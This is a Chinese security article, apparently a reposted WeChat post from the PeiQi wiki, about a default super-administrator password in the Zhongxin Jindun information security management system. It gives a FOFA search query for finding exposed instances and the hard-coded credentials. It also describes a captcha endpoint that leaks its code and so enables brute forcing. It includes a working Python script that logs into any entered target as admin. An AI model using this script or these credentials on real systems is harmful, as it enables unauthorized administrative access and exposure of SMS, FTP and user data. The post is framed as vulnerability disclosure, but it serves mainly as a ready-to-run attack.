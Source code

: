 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DWuUlbtFU-MiGE3zw1w8Yg)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

中新网络信息安全股份有限公司中新金盾信息安全管理系统存在默认弱口令，登录身份为超级管理员 目前大部分使用的都受到了影响

**二:  漏洞影响🐇**

**中新金盾信息安全管理系统**

**三:  漏洞复现🐋**

```
FOFA：title="中新金盾信息安全管理系统"
```

**看到产品手册**

```
https://wenku.baidu.com/view/14523474cfc789eb172dc8b4.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZaYpNxRvFevyLllMqu6aVvMOREakictNvvGrowfD6jWkUoKIj6xaiboYdg/640?wx_fmt=png)

```
系统默认管理员账号密码：
admin/zxsoft1234!@#$
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZaw4yCIdqZhszelMCycb1mBgVzfcdTaWQz7YpunVeqicPm8MBgAaraCkQ/640?wx_fmt=png)

**登录页面如上，使用账号密码登录**

**其中泄露了大部分信息，其中包括 SMMS 与 FTP 及用户信息**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZakXt8d9orBZickov3PVHCRHlf9W93osodrG9Npy3SwiaCw3s1d0kFiafhA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZaqPia1sUgTnRONjckcfRXcTBajyfxqf1ITiaBIQetYeLqgs4S7cnmicnnQ/640?wx_fmt=png)

```
请求  ?q=common/getcode  时
返回了验证码，通过验证码可爆破账号密码等操作
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZaYX228I7anFMIbQAQiaQm1TbtAqeH5fuVAPFpuf4KrSLc3edOtjicIwnQ/640?wx_fmt=png)

****四:  漏洞 POC🦉****  

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 中新金盾信息安全管理系统 默认超级管理员密码漏洞                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "?q=common/getcode"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
        response_data = response.headers['Set-Cookie']
        check_code = re.findall(r'check_code=(.*?);', response_data)[0]
        PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
        print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
        POC_2(target_url, check_code, PHPSESSID)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, check_code, PHPSESSID):
    vuln_url = target_url + "?q=common/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "1" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZaWtFrGtchBiaU2CnaToLPBYHUYQbmGIOMo88CBZVeMmI2Nh5t5eYEMeQ/640?wx_fmt=png)

 ****五:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 想要投稿的师傅想我啦，一起建设文库~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球会优先公开一些漏洞，同时里面不会像公众号一样一天只能一条，大家可以畅所欲言的啦~  
**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZapGW5pOBEVhg5aGycYS4Gnmz0fBpfNN8ZNJg8eQgFjn4Ga7hiaxbdltw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7VG2ibSg0kQYxEr01JZunZaQl8Cibx18LuiaTaicvRAvbticrR6aF4ghzuKtwdb6MONf1NxczSpzPL70g/640?wx_fmt=png)